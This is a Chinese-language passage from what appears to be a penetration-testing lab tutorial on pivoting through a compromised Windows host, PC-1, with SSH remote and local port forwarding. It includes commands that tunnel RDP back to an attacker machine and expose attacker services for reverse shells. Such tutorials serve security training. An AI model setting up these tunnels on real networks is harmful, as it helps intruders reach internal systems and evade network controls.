 </div>

到这一步为止，可能会出现一个合理的问题，即为什么我们需要端口转发，如果我们已经入侵了 PC-1 并可以直接从那里运行 RDP 会话。答案很简单：在只能通过控制台访问 PC-1 的情况下，我们无法使用任何 RDP 客户端，因为我们没有图形界面。通过将端口提供给攻击者的机器，您可以使用 Linux RDP 客户端进行连接。类似的情况会出现在您想要针对无法直接访问的端口运行攻击时，因为您的攻击可能需要特定的脚本语言，而这种语言在您沿途妥协的机器上可能并不总是可用。

参考前面的图像，要将服务器上的 3389 端口转发回我们的攻击者机器，我们可以在 PC-1 上使用以下命令：

```shell title="PC1: Command Prompt"
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

这将在 PC-1 和 `1.1.1.1`（攻击者 PC）之间建立一个 SSH 会话，使用 `tunneluser` 用户。

由于 `tunneluser` 不被允许在攻击者 PC 上运行 shell，我们需要使用 `-N` 开关运行 `ssh` 命令，以防止客户端请求 shell，否则连接将立即退出。`-R` 开关用于请求远程端口转发，语法要求我们首先指示我们将在 SSH 服务器上打开的端口（3389），然后是一个冒号，接着是我们将要转发的套接字的 IP 和端口（3.3.3.3:3389）。请注意，端口号不需要匹配，尽管在此示例中它们匹配。

命令本身不会输出任何内容，但隧道将依赖于命令的运行。每当需要时，我们可以通过按下 CTRL+C 来关闭隧道，就像关闭任何其他命令一样。

一旦我们的隧道设置并运行，我们可以转到攻击者的机器，并通过转发的端口使用 RDP 来连接服务器：

```shell title="Attacker's Machine"
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

### SSH 本地端口转发

本地端口转发允许我们将 SSH 服务器中的一个端口 “拉取” 到 SSH 客户端。在我们的情景中，这可以用于将攻击者机器上的任何服务通过 PC-1 上的一个端口提供出来。这样，任何无法直接连接到攻击者 PC 但可以连接到 PC-1 的主机现在将能够通过跳板主机访问攻击者的服务。

使用这种类型的端口转发将允许我们从通常无法连接回我们的主机运行反向 Shell，或者简单地使我们想要的任何服务对于无法直接连接到我们的机器的机器可用。

<div style={{textAlign:'center'}}>

![SSH 本地端口转发](img/image_20231201-120140.png)

</div>

要将攻击者机器上的端口 80 转发到 PC-1 并使其可用，我们可以在 PC-1 上运行以下命令：

```shell title="PC1: Command Prompt"
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```
